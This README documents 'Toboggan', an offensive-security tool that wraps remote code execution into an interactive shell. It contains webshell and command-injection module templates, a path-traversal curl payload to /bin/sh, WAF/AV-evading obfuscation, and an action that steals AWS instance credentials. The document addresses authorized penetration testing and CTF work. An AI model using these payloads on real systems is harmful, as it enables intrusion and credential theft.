

# 🛝 Toboggan

Toboggan bridges the gap between having Remote Code Execution (RCE) [PoC](https://github.com/n3rada/toboggan#-rce-module-interface) and having a usable semi-interactive shell on Linux and Windows targets when a reverse shell is not even an option (e.g., firewall, NAT, outbound filtering).

<p align="center">
    
</p>

Point `toboggan` at any Python script that exposes an `execute(command, timeout)` function. It will wrap any command execution primitive into an interactive session with history and modular post-exploitation actions.

The built-in forward shell in Linux uses named pipes (`mkfifo`) to provide stdin/stdout communication through the same channel.

See the source-linked [Development Guide](DEVELOPMENT.md) for the architecture and execution internals.

## Installation

Prefer using [`uv`](https://docs.astral.sh/uv/), a fast Python package manager that installs tools in isolated environments. Alternatively, [`pipx`](https://pypa.github.io/pipx/) or `pip` work as well.

### With uv (recommended)

[`uv tool install`](https://docs.astral.sh/uv/guides/tools/#installing-tools) persistently installs the tool and adds it to your `PATH`, similar to `pipx`:

```bash
uv tool install git+https://github.com/n3rada/toboggan.git
```

After installation, `toboggan` is available directly:

```bash
toboggan --help
```

To upgrade later:

```bash
uv tool upgrade toboggan
```

> [!TIP]
> You can also run `toboggan` **without installing** it using [`uvx`](https://docs.astral.sh/uv/guides/tools/#running-tools) (alias for `uv tool run`), which creates a temporary isolated environment on the fly:
> ```bash
> uvx --from git+https://github.com/n3rada/toboggan.git toboggan --help
> ```

To inject an extra dependency (e.g., a database driver needed by your RCE module):

```bash
uv tool install git+https://github.com/n3rada/toboggan.git --with pyrfc==3.3.1
```

### With [`pipx`](https://pypa.github.io/pipx/)

> [!NOTE]
> `pipx` installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).

```bash
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

To use system site packages, pass `--system-site-packages`:
```bash
pipx install --system-site-packages 'git+https://github.com/n3rada/toboggan.git'
```

Or inject a dependency directly:
```bash
pipx inject toboggan pyrfc==3.3.1
```

### With pip

```bash
pip install 'git+https://github.com/n3rada/toboggan.git'
```

## RCE Module Interface

This is the primary way to use Toboggan. A module is a plain Python script that encapsulates how a command reaches the target: the HTTP request, the authentication flow, the protocol quirks, and the output extraction. Toboggan calls your `execute()` function for every command and drives the entire session from what it returns.

Your module must expose exactly this function:

```python
def execute(command: str, timeout: float) -> str:
    ...
```

Toboggan passes every shell command through it and expects back the clean text output, as if the command ran locally. Nothing else is required: no class, no config file, no registration.

### Examples

#### PHP Webshell

```python
import httpx

URL = "http://target.com/uploads/shell.php"

def execute(command: str, timeout: float) -> str:
    r = httpx.post(URL, data={"cmd": command}, timeout=timeout, verify=False)
    return r.text.strip()
```

#### Multi-step: log-injection RCE

Some targets have no direct output channel. The function can chain as many requests as needed: trigger a functionality, inject into a side channel, and read back the result. It is plain Python, so anything goes:

```python
import httpx
import re

BASE = "http://target.com"

def execute(command: str, timeout: float) -> str:
    client = httpx.Client(base_url=BASE, verify=False, timeout=timeout)

    # Step 1: trigger the feature that writes a user-controlled value into an app log
    client.post("/api/report", json={"name": f"$(  {command}  )"})

    # Step 2: inject the command output into the log through a second endpoint
    # (the app evaluates the shell substitution before writing)
    client.get("/api/status", params={"debug": "1"})

    # Step 3: fetch the log file and extract the last entry
    r = client.get("/admin/logs/app.log")
    match = re.search(r"\[CMD\] (.+)", r.text)
    return match.group(1).strip() if match else ""
```

This pattern covers multi-stage SSRF chains, or any custom protocol that exposes command execution. As long as `execute()` returns the command output as a string, Toboggan handles the rest.

### Considerations

Your `execute()` function owns the full translation between Toboggan's command string and the target:

- Replace characters the channel rejects (e.g., spaces → `${IFS}`)
- Apply any encoding the target expects before sending (`base64`, URL encoding, hex)
- Strip noise from the response (banners, prompts, HTML wrappers) before returning
- Tune the timeout to the target's latency; Toboggan adapts internally but your function sets the floor

## Built-in Execution Backends

When writing a module is not practical, Toboggan ships two built-in backends that cover common cases directly from the command line.

### Burp Suite Request

Import a request saved from Burp Suite and place `||cmd||` where the command should be injected (URL, headers, or body):

```shell
toboggan --request burp_request.xml
```

> [!TIP]
> In Burp Suite, right-click a request → **Save item**, then add `||cmd||` where the command should be injected.

### Shell Command Wrapper

Wrap any shell command that contains a command injection point using the `||cmd||` placeholder:

```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## Usage

```shell
toboggan <module> [options]
toboggan --exec-wrapper '<command_template>'
toboggan --request <burp_file>
```

### Quick Start

**1. Write an RCE module**

A Python script with an `execute()` function that sends a command to the target and returns its output:

```python
# exploit.py
import httpx

def execute(command: str, timeout: float) -> str:
    r = httpx.post("http://target.com/shell.php", data={"cmd": command}, timeout=timeout)
    return r.text.strip()
```

**2. Launch toboggan** with that module:

```shell
toboggan ~/exploit.py
```

**3. Use the interactive session**

Run commands, invoke actions, and exit:

```shell
www-data@target:/var/www/html $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@target:/var/www/html $ cat /etc/hostname
web-prod-01

www-data@target:/var/www/html $ !imds --creds
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2026-11-17T18:30:00Z"
}

www-data@target:/var/www/html $ !exit
```

### Proxy

Forward traffic through any HTTP(S) proxy:

```shell
toboggan ~/phpexploit.py --proxy http://squideu.<something>.io:3128
```

Route through [Burp Suite](https://portswigger.net/burp) (defaults to `http://127.0.0.1:8080`):
```shell
toboggan ~/phpexploit.py --proxy
```

### Obfuscation

`--obfuscate` (`-O`) wraps each command in a shell-level transformation (using the `obfuscate`/`deobfuscate` actions) before it reaches the target. This is useful against WAF or AV filters that inspect the command string:

```shell
toboggan ~/phpexploit.py --obfuscate --os "linux"
```

`-b64` (`--base64`) encodes the command at the transport level: whatever string Toboggan would send to `execute()` gets base64-encoded first. The target must decode and eval it. Use this when the execution channel requires it or when the module is built to handle it:

```shell
toboggan ~/phpexploit.py -b64
```

Both flags can be combined. When active together, commands are obfuscated first at the shell level, and the resulting pipeline is then base64-encoded before reaching `execute()`. Toboggan will warn you when both are active so the layering is intentional, not accidental.

Both layers can also be toggled at runtime with `!obfuscate` and `!b64` inside the REPL.

## Forward Shell (Named Pipes)

Toboggan upgrades dumb web shells into semi-interactive shells using named pipes (FIFO) for inter-process communication. This forward shell technique is invaluable when:

- You can't get a reverse shell due to firewall restrictions
- Target is behind NAT or multiple proxies
- Working with HTTP-only RCE channels (web shells, command injection)
- Dealing with blind command execution that doesn't return output immediately
- You need an interactive shell without opening connections back to your machine

```shell
toboggan ~/phpexploit.py --fifo
```

The forward shell uses `mkfifo` under the hood to create a semi-interactive shell experience over named pipes, even in heavily restricted environments. This enables interactive commands that require stdin/stdout communication such as `sudo -l` and any scripts using `read` that expect real-time user input.

Combine with obfuscation and the forward shell:
```shell
toboggan ~/phpexploit.py --obfuscate --fifo --os "linux"
```

> [!WARNING]
> Ctrl+C is not forwarded. Control characters only work in real TTY/PTY environments.

### Named Pipe Options

| Flag | Description |
|---|---|
| `--fifo` | Start a semi-interactive FIFO session |
| `-ri`, `--read-interval` | Polling interval in seconds (default: `0.3`) |
| `-i`, `--stdin` | Custom input path for the FIFO pipe |
| `-o`, `--stdout` | Custom output path for the FIFO pipe |
| `--shell` | Shell binary for named pipe execution (e.g., `/bin/bash`) |

## Built-in Actions

Actions are modular plugins executed via the `!` prefix inside the terminal session. Use `!help` to list all available actions.

For example, `!imds` browses the AWS EC2 instance metadata service from the target (IMDSv2 by default, falling back to IMDSv1; force one with `-v1`/`-v2`):

```shell
!imds                      # browse meta-data/ interactively; each step fetches one node
!imds iam/info             # paths are relative to /latest/meta-data/
!imds /latest/user-data    # or absolute under /latest/
!imds -r iam/              # print every 'path: value' below a directory
!imds --creds              # IAM role credentials as JSON
!imds --creds --profile    # same, as an ~/.aws/credentials block named after the role
```

### Bring Your Own Actions (BYOA)

Custom actions can be placed in the user action directory. Toboggan loads user actions with priority over built-in ones, allowing you to override or extend functionality.

| Platform | Path |
|---|---|
| Linux/macOS | `$XDG_DATA_HOME/toboggan/actions/` (default: `~/.local/share/toboggan/actions/`) |
| Windows | `%LOCALAPPDATA%\toboggan\actions\` |

Each action is a Python file inside a subdirectory named after the action, with OS-specific implementations:

```
actions/
  my_action/
    linux.py    # Linux implementation
    windows.py  # Windows implementation
```

Your action class must inherit from `BaseAction` and implement the `run()` method. See [DEVELOPMENT.md](DEVELOPMENT.md) for the full guide on creating actions.

## Data Storage

Toboggan follows [XDG Base Directory](https://specifications.freedesktop.org/basedir-spec/latest/) conventions on Linux:

| Purpose | Linux Path | Windows Path |
|---|---|---|
| **User actions** | `$XDG_DATA_HOME/toboggan/actions/` | `%LOCALAPPDATA%\toboggan\actions\` |
| **Logs** | `$XDG_STATE_HOME/toboggan/logs/` | `%LOCALAPPDATA%\toboggan\logs\` |
| **Command history** | `$XDG_STATE_HOME/toboggan/history/` | `%LOCALAPPDATA%\toboggan\history\` |
| **Cached binaries** | `$XDG_CACHE_HOME/toboggan/binaries/` | `%LOCALAPPDATA%\toboggan\binaries\` |

> [!TIP]
> Override the log directory with the `TOBOGGAN_LOG_DIR` environment variable.

Console logs go to stderr, so stdout carries only remote command output. The log file, `toboggan.jsonl`, holds one JSON object per line (`ts`, `level`, `msg`, `module`, `function`, `line`, `exception`, plus `extra` when bound). It rotates at 10 MB and is kept 14 days; tune these with `TOBOGGAN_LOG_MAX_BYTES` and `TOBOGGAN_LOG_RETENTION_DAYS`.

```shell
jq -r 'select(.level == "ERROR") | "\(.ts) \(.msg)"' ~/.local/state/toboggan/logs/toboggan.jsonl
```

## Help

```shell
toboggan --help              # Show all CLI options
toboggan ~/exploit.py        # Then type !help for available actions
toboggan ~/exploit.py        # Then type !<action> -h for action-specific help
```

### Terminal Built-in Commands

| Command | Description |
|---|---|
| `!help` (`!h`) | Show available actions and built-in commands |
| `!exit` (`!e`, `!ex`) | Exit the terminal session |
| `!size [bytes]` | Probe or set max command size |
| `!debug` | Toggle debug logging |
| `!trace` | Toggle trace logging |
| `!paths` | Show custom paths and command location cache |
| `!paths add <paths>` | Add custom paths for command lookup |
| `!paths clear` | Clear the command location cache |
| `!obfuscate` | Toggle command obfuscation on/off |
| `!b64` | Toggle base64 wrapping of commands before `execute()` |

## Authorized Use

Toboggan is built for authorized penetration testing, security research, and education. Use it only where you have documented consent from the system owner or operate within an environment you control.

Acceptable contexts:

- **Authorized penetration testing** and **red team engagements** conducted under a signed statement of work or rules of engagement
- **CTF competitions** and sanctioned learning platforms (Hack The Box, OffSec labs, TryHackMe)
- **Security research** in private lab environments you own (local VMs, isolated networks)
- **Educational use** in classroom or training settings with instructor-provided targets

Running this tool against systems without explicit authorization is prohibited and may violate applicable law. The authors and contributors accept no liability for unauthorized or unlawful use.
